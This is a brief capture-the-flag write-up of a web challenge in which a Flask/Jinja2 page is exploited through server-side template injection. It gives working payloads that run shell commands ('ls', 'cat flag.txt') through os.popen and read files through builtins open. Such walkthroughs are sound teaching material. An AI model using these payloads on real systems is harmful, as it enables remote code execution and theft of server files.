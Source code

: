 # Templated
## Web

We start the challenge on a simple page:

![pg](IMG/img1.png)

We learn that Jinja2 and Flask are used. Jinja2 is a template engine and could make the server vulnerable to an Server Side Template Injection.

We can verify this by using a simple payload:
```
{{7*7}}
```

I'll open Burp Suite for this.

![payLoad1](IMG/img2.png)


And it works! We now know that the server is vulnerable to SSTI.

We can now try different payloads to obtain the flag.

I'll first need to know the flags's location. I'll use the following payload for this:

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen("ls").read()}}
```

![payLoad2](IMG/img3.png)

Now we know the flag's location. Let'read it.

I'll modify the payload so that it reads the contents of the "flag.txt" file.

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen("cat+flag.txt").read()}}
```

![payload3](IMG/img4.png)


This does not work. I'll try to modify the payload. 

```
{{self.__init__.__globals__.__builtins__.open("flag.txt").read()}}
```

I got rid of the OS module and just opened the file to read it's contents.

![hit](IMG/img5.png)

And this worked!

## We got the flag!